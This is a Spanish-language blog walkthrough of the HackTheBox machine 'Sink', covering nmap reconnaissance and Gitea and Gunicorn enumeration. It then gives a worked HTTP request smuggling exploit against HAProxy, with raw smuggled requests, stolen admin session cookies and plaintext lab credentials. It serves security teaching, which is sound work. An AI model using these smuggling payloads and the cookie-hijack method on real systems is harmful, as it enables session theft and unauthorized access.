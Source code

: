 ```yaml
---
layout      : post
title       : "HackTheBox - Sink"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313banner.png
category    : htb
tags        : [ AWS-CLI, HTTP-request-smuggling, cookie-hijacking, gitea, .enc ]
---
```

Máquina **Linux** nivel desquiciado. Nos enfrentaremos a un `HTTP Request Smuggling` (loco loco), saltaremos entre usuarios aún más locos, veremos **commits** relacionados a pasos a producción y pruebas extrañas con 🔑🔑, jugaremos bastante con `AWS CLI`, encontraremos secretos :O y finalmente desencriptaremos un archivo también jugando con `AWS` y `llaves KMS`.

![313sinkHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313sinkHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [MrR3boot](https://www.hackthebox.eu/profile/13531).

Desquiceddd! Este writeup es largito (más que nada por los bloques de código), así que cafecito y a rompernos la cabeza...

> Muy linda máquina.

Nos encontraremos con dos servicios, uno corriendo `Gitea` y otro `Gunicorn`, en el camino nos veremos las caras con un `HTTP request smuggling` el cual nos permitirá interceptar la **cookie** de sesión del usuario `admin@sink.htb`. La usaremos para entrar en un panel y encontrar unas notas, cada una tiene una credencial, una de ellas nos permitirá entrar al servicio `Gitea` referenciado antes.

Veremos unos repositorios, commits y demás info. En uno de los commits el usuario `marcus` estaba haciendo pruebas con su llave `SSH` privada y nos dejó el rastro. Usaremos esa llave para entrar en la máquina como él.

Empezaremos a jugar con `AWS CLI` para ver **logs** y **secretos**, en el jugueteo :o encontraremos otras credenciales guardadas como eso, secretos. Una de ellas pertenecen al usuario `david` y nos permitirán generar una sesión como él tanto en `Gitea` como en la máquina.

**David** en sus archivos tiene uno llamado `servers.enc` y esta encriptado mediante `aws`. Seguiremos jugando con `AW, pero ahora con `kms` para jugar con `keyId`**s** y buscar la manera de desencriptar el archivo validándolo contra distintas llaves que iremos encontrando.

Finalmente encontraremos una llave que nos devuelve una cadena en `base64`, la tomamos y guardamos en un archivo, el tipo de archivo generado es un comprimido `gzip`, usaremos `zcat` para descubrir que contiene el archivo `servers.yml`, veremos otras credenciales en este caso de un usuario llamado `admin`. Nos servirán para generar una Shell como el usuario `root`.

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Muuuuuuuuuy real, alguna que otra cosita conocida pero sobre todo demasiada enumeración (mucha lectura y búsqueda).

> Escribo para tener mis "notas", por si algun día se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Vuelve que el dolor me mata.

1. [Reconocimiento](#reconocimiento).
  * [Usamos **nmap** para descubrir los puertos que tiene abiertos la máquina](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos el servicio web corriendo en el puerto 3000](#puerto-3000).
  * [Descubrimos que hay en el servicio web del puerto 5000](#puerto-3000).
3. [Explotación](#explotacion).
  * [Encontramos cositas al interceptar las peticiones con **BurpSuite**](#playing_with_vuln).
  * [Robamos **cookies** del usuario **admin** explotando un **HTTP Request Smuggling**](#final_vuln).
  * [Encontramos cositas siendo el usuario **admin** en la web](#web-notes).
  * [Enumeramos el servicio del puerto **3000** (**Gitea**) como el usuario **root**](#gitea-root).
4. [Movimiento Lateral (**AWSecrets**)](#movimiento-lateral).
5. [Escalada de privilegios](#escalada-de-privilegios).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Usamos <u>nmap</u> para descubrir puertos abiertos [📌](#enum-nmap) {#enum-nmap}

Realizaremos un escaneo de puertos para saber que servicios esta corriendo la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.225 -oG initScan
```

| Parámetro  | Descripción |
| ---------- | :---------- |
| -p-        | Escaneamos todos los 65535 puertos.                     |
| --open     | Solo los puertos que estén abiertos.                    |
| -v         | Permite ver en consola lo que va encontrando (verbose). |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
# Nmap 7.80 scan initiated Wed Feb 17 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.225
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.225 ()   Status: Up
Host: 10.10.10.225 ()   Ports: 22/open/tcp//ssh///, 3000/open/tcp//ppp///, 5000/open/tcp//upnp///
# Nmap done at Wed Feb 17 25:25:25 2021 -- 1 IP address (1 host up) scanned in 90.06 seconds
```

Perfecto, nos encontramos los puertos y servicios:

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://es.wikipedia.org/wiki/Secure_Shell)**: Tenemos la posibilidad de obtener una Shell de manera segura. |
| 3000   | **PPP**: No lo sabemos aún. |
| 5000   | **[UPnP](https://www.speedguide.net/port.php?port=5000)**: Conjunto de protocolos para la comunicación de periféricos en la red. |

Hagamos un escaneo de scripts y versiones con base en cada servicio (puerto), con ello obtenemos información más detallada de cada uno:

```bash
❭ nmap -p 22,3000,5000 -sC -sV 10.10.10.225 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos.                       |
| -sC       | Muestra todos los scripts relacionados con el servicio. |
| -sV       | Nos permite ver la versión del servicio.                |
| -oN       | Guarda el output en un archivo.                         |

Obtenemos:

```bash
# Nmap 7.80 scan initiated Wed Feb 17 25:25:25 2021 as: nmap -p 22,3000,5000 -sC -sV -oN portScan 10.10.10.225
Nmap scan report for 10.10.10.225
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=1f3e9a13ee13832b; Path=/; HttpOnly
|     Set-Cookie: _csrf=Aq4ydKpCQiIxK9nMLskgSeyGzwI6MTYxMzU3NjcxMDE1ODI4NzczNQ; Path=/; Expires=Thu, 18 Feb 2021 15:45:10 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Feb 2021 15:45:10 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title> Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|     <meta name="description" content="Gitea (Git with a cup of tea) is a painless
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=4962a49b06cbe2fd; Path=/; HttpOnly
|     Set-Cookie: _csrf=VEhuM5Nh9ZTyY63RRBsfaoun5dI6MTYxMzU3NjcxNjE4MjM4NjQzMg; Path=/; Expires=Thu, 18 Feb 2021 15:45:16 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Feb 2021 15:45:16 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|_    <meta name="description" content="Gitea (Git with a c
5000/tcp open  http    Gunicorn 20.0.0
|_http-server-header: gunicorn/20.0.0
|_http-title: Sink Devops
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.80%I=7%D=2/17%Time=602D37C4%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"...");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 17 25:25:25 2021 -- 1 IP address (1 host up) scanned in 108.67 seconds
```

Bien, tenemos varias cositas:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH                   | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 |
| 3000   | PPP (Al parecer HTTP) | - |

* Tiene varias referencias hacia `Gitea`.
* Vemos 2 cookies y una relacionada a `gitea`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 5000   | HTTP     | Gunicorn 20.0.0 |

Nada más por ahora, así que empecemos a validar cada servicio y ver por donde podemos jugar...

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Recorremos el puerto 3000 [📌](#puerto-3000) {#puerto-3000}

![313page3000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000.png)

Listos, confirmamos el servicio `Gitea`.

🦠 ***Básicamente nos permite alojar control de versiones usando `Git` y es un fork (copia) de [Gogs](https://onthedock.github.io/post/171106-gogs-como-crear-tu-propio-servicio-de-hospedaje-de-repos-git/) (que nos ayuda a correr nuestro propio servicio `Git`, mejor dicho, tener nuestro propio <u>GitHub</u>), pero mejorado y para toda la familia.***

* [**Gitea**, la versión mejorada de **Gogs**](https://onthedock.github.io/post/180713-gitea-la-version-mejorada-de-gogs/).
* [Comparativa entre varios servicios de **Git hosting**](https://docs.gitea.io/en-us/comparison/).

Vale, entonces enumeremos a ver que sacamos...

Si vamos al apartado `explore` tenemos 3 ítems, veamos `users`:

![313page3000_explore_users](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_explore_users.png)

* Usuario: `david`.
* Usuario: `marcus`.
* Usuario: `root`.
* Versión **Gitea**: `1.12.6`.
* Versión **Go**: `1.14.12`.

Validando cada usuario, vemos que todos están asociados a una organización, `Sink_Solutions`, en **Organizations** la encontramos:

![313page3000_explore_organizations](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_explore_organizations.png)

![313page3000_explore_organizations_sinksolutions](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_explore_organizations_sinksolutions.png)

También podemos logearnos, probando con los usuarios y posibles contraseñas no conseguimos nada...

![313page3000_signin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_signin.png)

Buscando vulnerabilidades con las versiones relacionadas encontramos una que posiblemente (no creo :P) esté relacionada, pero debemos estar autenticados, guardémosla por si algo:

* [Gitea-1.12.6: Authenticated remote code execution via git hooks (CVE-2020-14144)](https://bugs.gentoo.org/750686).

...

## Recorremos el puerto 5000 [📌](#puerto-5000) {#puerto-5000}

🦄 ***`Gunicorn` (Green Unicorn) is a <u>Python WSGI HTTP Server for UNIX</u>. It’s a pre-fork worker model compatible with various web frameworks, simple and lightweight server.*** [musyokaian](https://musyokaian.medium.com/server-side-template-injection-ssti-afa201f2afbb).

Pero khe jeso de ***WSGI***, rápidamente:

⚙️ ***`WSGI` permite que programas hechos en <u>Python</u> puedan comunicarse a través del protocolo <u>HTTP</u> sin ningún tipo de framework o librería.*** [codigofacilito](https://codigofacilito.com/articulos/wsgi-python).

![313page5000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000.png)

Tenemos un login panel, pero también nos podemos registrar, démosle...

![313page5000_signup](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_signup.png)

![313page5000_home](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_home.png)

* Tenemos un correo: `admin@sink.htb`.

Bien, pa que lo sepamos:

![313page5000_home_whatisDevOps](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_home_whatisDevOps.png)

En el apartado `notes` nos permite agregar, ver y borrar notas:

![313page5000_notes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes.png)

![313page5000_notes_more](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_more.png)

> Son notas que cree para probar algun tipo de injección o brecha. Pero por el momento nada...

...

# Explotación [#](#explotacion) {#explotacion}

---

* [Jugando para entender la explotación](#playing_with_vuln).
* [Explotación final de algo muy locochón](#final_vuln).

...

## Encontramos un vector de ataque muuuy potencial [📌](#playing_with_vuln) {#playing_with_vuln}

Bueno bueno bueeeeeeeeeeno... 

Después de dar vueltas por las páginas con **BurpSuite** interceptando las peticiones del servidor `http://10.10.10.25:5000`, notamos algo llamativo:

![313burp5000_home_haproxy_found](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_home_haproxy_found.png)

Esta usando un proxy llamado `HAProxy` entre las peticiones, pues veamos que se trata:

🚇 ***`HAProxy` es un balanceador de cargas (load balancer: <u>transfiere peticiones entre host para evitar colapsos y hacer que sean procesadas más rápido</u>) entre servidores.***

* [YT - Balanceador de carga con **HAProxy**](https://www.youtube.com/watch?v=7ljiOD6MbLA).
* [HAProxy en Wikipedia](https://en.wikipedia.org/wiki/HAProxy).
* [Balanceadores de carga, mejora el rendimiento de tu web](https://www.redeszone.net/tutoriales/servidores/balanceador-carga-load-balancer-que-es-funcionamiento/).

Teniendo esto claro, validemos si existen vulnerabilidades hacia ese servicio...

Inicialmente nos encontramos con el CVE [CVE-2020-11100](https://www.cybersecurity-help.cz/vdb/SB2020040219), el cual apoyado del protocolo `HTTP/2` (para hacer un uso más eficiente de los recursos en la red) puede permitirle al atacante enviar una petición "especial", que puede generar un `heap-based buffer overflow` y finalmente una ejecución remota de comandos en el sistema.

* [Heap-based Buffer Overflow? - cwe.mitre.org](https://cwe.mitre.org/data/definitions/122.html).
* [Desbordamiento de montículo (heap) - Wikipedia](https://es.wikipedia.org/wiki/Desbordamiento_de_mont%C3%ADculo).

Es una vulnerabilidad descubierta por `Felix Wilhelm` (integrante del grupo de hackers de **Google** (`Project Zero`)), en el blog oficial de `HAProxy` nos redireccionan al writeup creado por él:

* [HAProxy Security Update HTTP/2 HPACK - haproxy.com](https://www.haproxy.com/blog/haproxy-1-8-http-2-hpack-decoder-vulnerability-fixed/).
* [HAProxy: out-of-bounds-write in HTTP/2 - bugs.chromium.org](https://bugs.chromium.org/p/project-zero/issues/detail?id=2023).

Dándole vistazos a otros recursos y temas relacionados a esa vuln, no logre interactuar con ella... 

...

Buscando y buscando encontré un [PoC en formato de video](https://www.youtube.com/watch?v=nq0ndhkfV_M) explotando una vulnerabilidad llamada:

```html
HTTP Request Smuggling
``` 

Y que afecta a `HAProxy`, esta tiene relacionado el CVE [CVE-2019-18277](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18277).

* [YT - HTTP Request Smuggling explain on **HAProxy CVE-2019-18277**](https://www.youtube.com/watch?v=nq0ndhkfV_M).

Antes de probar la vuln, entendamos (o intentémoslo) sobre `HTTP Request Smuggling`.

---

### ¿Qué es un <u>HTTP Request Smuggling</u>? (Descubrámoslo) [🪕](#what-is-smuggling) {#what-is-smuggling}

Como indica [**Busra Demir** en su artículo](https://cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling), `HTTP request smuggling` es una técnica la cual interfiere en el proceso por el que pasan las peticiones del front al back. Donde el atacante puede modificar la petición para incluir otra en la misma petición. Lo que pasara es que ejecutara la primera petición normalmente, pero al terminar de procesarla ejecutara la segunda que tenemos incrustada, logrando así el éxito de la vulnerabilidad. 

Esto se logra **modificando/agregando** <u>2 headers HTTP</u>:

```html
* Content-Length Header: the size of the request body (in bytes).
* Transfer-Encoding Header: specified as chunked so that the request body will be sent in chunks (separated by newline). 0 is used to end a chunk.
```

* [**Pentester guide to HTTP Request Smuggling**](https://cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling).

Pero **¿para qué nos sirve esto?** Como explica [portswigger](https://portswigger.net/web-security/request-smuggling) nos puede permitir <u>bypassear controles de seguridad</u>, <u>obtener acceso a información sensible</u> yyyy <u>comprometer otros usuarios que estén en la aplicación</u>.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313http_request_smuggling.svg" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> Tomada de [What is HTTP request smuggling? - portswigger](https://portswigger.net/web-security/request-smuggling).

...

Ahora sí, sigamos y probemos si nuestra versión es vulnerable a `HTTP Request Smuggling`...

Siguiendo algunos ejemplos de referencias anteriores y de [este artículo](https://medium.com/@ricardoiramar/the-powerful-http-request-smuggling-af208fafa142), logramos obtener la versión de `HAProxy` que esta usando el servidor:

* [The Powerfull HTTP Request Smuggling - medium.com/ricardoiramar](https://medium.com/@ricardoiramar/the-powerful-http-request-smuggling-af208fafa142).

Si enviamos la siguiente petición:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_versionHAProxy.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* Enviamos la data en formato `chunked` (separada por `\n` (newline)).
* El total de la traza serian `9` caracteres (`note=hola`).
* Con `0` le indicamos el final de la data en formato `chunk`.

Obtenemos la versión concreta de **HAProxy**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_res_versionHAProxy.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> HAProxy Version 1.9.10

Bueno, pues podemos enfocarnos un poco más. Quizás esta sea la ruta adecuada para la explotación. Sigamos validando si podemos explotar la web mediante el smuggling... 

En las referencias del CVE, encontramos este **PoC**:

* [HAProxy HTTP Request Smuggling](https://nathandavison.com/blog/haproxy-http-request-smuggling).

Dándole unas vueltas nos indica algo necesario para la correcta explotación:

> The backend must also support HTTP <u>keep-alive</u>.

Así que debemos cambiar el **header** `Connection: close` a `Connection: keep-alive`.

Démosle a la locura, modifiquemos la petición incrustando otra solicitud a ver que recibimos:

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 259                                               <!-- original -->
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding: chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded                   <!-- smuggling -->
Content-Length: 251
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8

note=holas
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y validamos el apartado `/notes`, tenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_res_newPOST101010225.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

**Nada :P 😂**

...

## Logramos la explotación del <u>HTTP Request Smuggling</u> [📌](#final_vuln) {#final_vuln}

Revisando de nuevo el post, nos dice que <u>muchas veces el </u>`chunked`<u> no es tomado y debemos agregarle al inicio de ese header la cadena </u>`\x0b`<u> (hexadecimal) </u>**<u>para que lo interprete</u>**. 

Después de jugar con él, intentando agregarlo a la petición, obteníamos lo mismo. Peeeeeeero era porque lo estaba haciendo mal. 

Si pasamos el valor hexadecimal a **base64** externamente (nosotros mismos) y después en **Burp** usamos el convertidor interno de **base64** al valor original, ahí si logramos ver el `\x0b` reflejado:

1. Pasar `0b` a **base64**: `Cw==`.
2. Pegar `Cw==` en la petición, seleccionarlo y decodearlo de **base64** a valor original:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225_0b_1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Seleccionamos la cadena `Cw==` y hacemos:

```html
Clic derecho > Convert-Selection > Base64 > Base64-decode (o de la forma corta: CTRL + SHIFT + B)
```

Y obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225_0b_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded                        <!-- original -->
Content-Length: 259
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding:chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded                        <!-- smuggling -->
Content-Length: 251
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8

note=holas
```

Perfecto, validemos si cambia algo ahora...

Nos genera dos notas, una esta vacía y la otra llenita :P Veamos la llenita claramente:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_res_newPOST101010225_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Vale vale valeeeeeeeeeee, que es esta locuraaaaaaaaaaaa... Tenemos una nueva `cookie` de algún usuario (o pues al menos es diferente a la nuestra) corriendo el servicio sobre el `localhost`.

Viendo lo que tenemos podemos intuir que esta pasando:

> (Esto puede sonar enrredado (supongo) pero es lo que entiendo que paso)

🚨 ***Normalmente (como vimos en las explicaciones anteriores) queremos ingresar a algún recurso al que no tengamos acceso. Como en este caso no sabemos a cuál, lo lanzamos contra el mismo recurso. Vemos que se efectúa nuestro intento, logrando así <u>interceptar la otra petición, pero obteniendo la respuesta en el mismo recurso que usamos para enviarla</u> (o sea, en `/notes`)*** 

La petición es un `delete` a la nota **1234** (`/notes/delete/1234`) pero ejecutada desde el `localhost` por el puerto `8080` y claramente por un usuario interno, lo sabemos por qué obtenemos una `Cookie` distinta a la nuestra. Podemos usarla para cambiar la que tenemos por esa, recargar la página y ver con quien estamos (si es que cambiamos a otro usuario)...

```html
GET /notes/delete/1234 HTTP/1.1
Host: 127.0.0.1:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.YDSQAA._g
```

Pero si notamos el tamaño de la `cookie` es más corto (la comparamos con la nuestra), agreguémosle más buffer, simplemente cambiando el valor de la cabecera a `Content-Length: 250` por ejemplo y veamos la respuesta ahora:

> (Justo acá reiniciaron la máquina, pero pues lo unico que cambiaran seran las cookies, tanto la mia como la que obtengamos)

La respuesta que tenemos en la nueva nota es:

```html
Nada ._ .
```

Si ponemos más de **308** como tamaño volvemos a obtener solo una nota, entonces podemos borrar el contenido de `note=` (para liberar espacio) y coloquemos `Content-Length: 303` (después de algún tanteo):

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 254
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDWNyg.naJPYMmG6_8HKfdGqeeJMTwjVR4
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding:chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 303
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDWNyg.naJPYMmG6_8HKfdGqeeJMTwjVR4

note=
```

Y obtenemos ahora si en la nota:

```html
GET /notes/delete/1234 HTTP/1.1 
Host: 127.0.0.1:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0 
Accept-Encoding: gzip, deflate 
Accept: */* 
Cookie: session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.YDWL9A.dG5uqF6Y8oZfi7uQi3IATStQVIA 
X-Forwarded-For: 127.0.0.1
```

Perfecto, ahora si es del tamaño adecuado :)

> (Volvieron a reiniciar la máquina😐)

Tomemos la cookie. Yo usare la extensión de Firefox llamada `Cookie-Editor` (que nos permite jugar con las cookies claramente :P)

Añadimos una nueva cookie, le ponemos de nombre `session` y pegamos la cookie que encontramos y damos clic en guardar (`add`). Ahora simplemente recargamos la página y estaríamos dentro como el usuario `admin@sink.htb`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_changed_cookie_adminSINKhtb.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313google_gif_kidperfect.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

...

## Encontramos cositas siendo el usuario <u>admin</u> [📌](#web-notes) {#web-notes}

Si revisamos las notas tenemos 3:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_admin_notes.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

El contenido de cada una es el siguiente:

```html
Note (1):

Chef Login : http://chef.sink.htb Username : chefadm Password : /G'FEGc&zEx{4]zz
```

```html
Note (2):

Dev Node URL : http://code.sink.htb Username : root Password : FaH@3I>ZB})zzfO3
```

```html
Note (3):

Nagios URL : https://nagios.sink.htb Username : nagios_adm Password : gB>HGGK\{*L.f83C
```

Opa, tenemos 3 nuevas URL (una aparentemente con certificado SSL), con sus respectivos usuarios y contraseñas... Agreguémoslas al `/etc/hosts` e inspeccionemos...

```bash
❭ cat /etc/hosts
...
10.10.10.225  chef.sink.htb code.sink.htb nagios.sink.htb
...
```

